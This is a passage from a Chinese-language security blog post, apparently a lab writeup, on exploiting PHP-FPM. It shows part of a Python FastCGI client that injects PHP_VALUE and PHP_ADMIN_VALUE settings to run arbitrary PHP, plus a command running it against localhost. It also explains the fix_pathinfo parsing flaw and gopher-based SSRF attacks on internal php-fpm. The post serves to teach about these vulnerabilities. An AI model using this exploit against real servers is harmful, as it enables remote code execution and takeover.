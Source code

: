 ```php
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```
执行命令：

`python /opt/vuls/fpm_client.py 127.0.0.1 /usr/local/lib/php/PEAR.php -c '<?php echo `pwd`;?>'`

![](assets/res.png)

### 0x03

其实nginx与iis7的解析漏洞就是因为php-fpm导致的，这个解析漏洞就是访问形如：`http://xxxxx/123.jpg/.php`的url就会把123.jpg按照php来解析，所以，如果一个网站可以上传图片，而且存在这个解析漏洞，那么就可以直接getshell了，危害很大！在php里有一个配置选项：`cgi.fix_pathinfo`,这个配置是为了支持pathinfo,pathinfo是什么呢？
形如：`http://xxx/index.php/test/123`,index.php才是真正的脚本文件，路径后面的都是传给它的参数。

所以在开启了fix_pathinfo后，php-fpm在拿到`123.jpg/.php`这个路径后，发现这个文件不存在，就会去掉最后一个`/`后的内容，然后继续解析，直到某个文件存在，然后解析，这就导致了解析漏洞。

而且这个漏洞是可以通过ssrf打的，结合gopher协议，可以构造任何tcp包，就可以攻击内网脆弱的php-fpm。参考：

https://0verwatch.top/Gopher-fastcgi.html

长亭：https://blog.chaitin.cn/gopher-attack-surfaces/


这位表哥提到的用nc抓包的方式，我之前从来没想过，都是用wireshark抓，但是他这里用nc抓包真的挺方便的。
